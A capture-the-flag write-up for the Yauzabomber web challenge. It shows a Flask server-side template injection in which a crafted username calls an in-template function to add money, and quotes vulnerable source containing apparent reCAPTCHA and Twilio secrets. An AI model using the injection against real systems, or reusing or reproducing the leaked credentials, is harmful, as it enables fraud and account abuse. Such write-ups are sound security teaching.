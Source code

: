 # Yauzabomber

## Description

http://tasks.yauzactf.com:30003/

Your task is to learn a new service for fast sending messages at

## Solution

### Unintended

The `.git` directory and source ode was exposed. In `app.py`, the flag is exposed.

```python
@app.route("/shop/", methods=['POST'])
@require_authorization
def shop_form(current_user):
    item_id = int(request.form.get('id'))
    user_obj, item_obj = db.ShopItem().buy_item(item_id, current_user.id)
    shop_items = db.ShopItem().list_items()

    if user_obj is None:
        return render_template("shop.html", shop_items=shop_items, error=1)

    if item_obj.phone == '+7777-(777)-777777':
        db.User().delete_login(current_user.login)
        return render_template("shop.html", shop_items=shop_items, flag='YauzaCTF{$M$_B000mb3r_$$t1_vu1n}')

    return render_template("shop.html", shop_items=shop_items, success=1)
```

### Intended

There is a vulnerability in the "new chat" feature.

```python
@app.route("/new_chat/", methods=['POST'])
@require_authorization
def new_chat(current_user):
    phone = str(request.form.get('phone'))
    message = str(request.form.get('message'))
    recaptchaResponse = str(request.form.get('g-recaptcha-response'))

    r = requests.post('https://www.google.com/recaptcha/api/siteverify',
                      data={
                          'secret': '6LcFLRccAAAAAJGO9V52-YxMiXkrKLmT4GBp9Ysf',
                          'response': recaptchaResponse,
                          'remoteip': '127.0.0.1',
                      })
    a = request.form
    j = r.json()

    if 'success' in j and j['success']:
        if not phone.startswith('+1337') and not phone.startswith('1337'):
            # sms message
            result = sms.send_sms(number='+' + re.sub("[^0-9]", "", phone), message=message, login=current_user.login, vulnfunc=db.User().add_money_to_login)
            if result:
                db.Message().send_sms(current_user, phone, message)
        else:
            # chat private message
            db.Message().send_private(current_user, phone, message)

    return redirect('/private/')
```

When sending an SMS to a number that does not begin with `+1337` or `1337`, the `send_sms` function in `sms.py` is called, with the keyword argument `vulnfunc=db.User().add_money_to_login`.

In the `send_sms` function, Flask's `render_template_string` function is used to generate the SMS message.

```python
def send_sms(number, message, login, vulnfunc):
    try:
        message = render_template_string('Hello from ' + login + ':\n{{ message }}', message=message, add_money_to_login=vulnfunc)
    except Exception as e:
        message = str(e)
    print(message)
    message = message[:160]
    r = requests.post(
        'https://api.twilio.com/2010-04-01/Accounts/AC8af1c9ea60578bbf05fcc8073785601d/Messages.json',
        data={
            'To': number,
            'MessagingServiceSid': 'MG2361073db2b525645c80023fbf791ff8',
            'Body': message
        },
        auth=HTTPBasicAuth('AC8af1c9ea60578bbf05fcc8073785601d', '43b98a2b0de062483f43e938112d9aa0')
    )
    print(number)
    j = r.json()
    print(j)
    return j['status'] == 'accepted' and not j['error_code']
```

The resulting template is user-controllable, since `login` is our username.

```python
'Hello from ' + login + ':\n{{ message }}'
```

We can then exploit Server-Side Template Injection \(SSTI\). Since the `add_money_to_login` function is added to the template context, we can manipulate the `login` variable to invoke this function. We essentially need two accounts, with one of the usernames being:

```python
{{ add_money_to_login(USERNAME, AMOUNT_OF_MONEY) }}
```

![](../../.gitbook/assets/upload_1a3560d2825112a36522ddfecb9b5b1c.png)

Then, when sending an SMS message, the following is called:

```python
render_template_string(
    'Hello from {{ add_money_to_login(USERNAME, AMOUNT_OF_MONEY) }}:\n{{ message }}', 
    message=message, 
    add_money_to_login=vulnfunc
)
```

When rendering the template, the `add_money_to_login` function is called, adding money to our other account.

![](../../.gitbook/assets/upload_8ef68bbab074e004b0c4c3a59ef8d74a.png)

Now that we have sufficient money, we can buy the flag!

![](../../.gitbook/assets/upload_170e466c6e5c955c491187bcd70bd2c3.png)

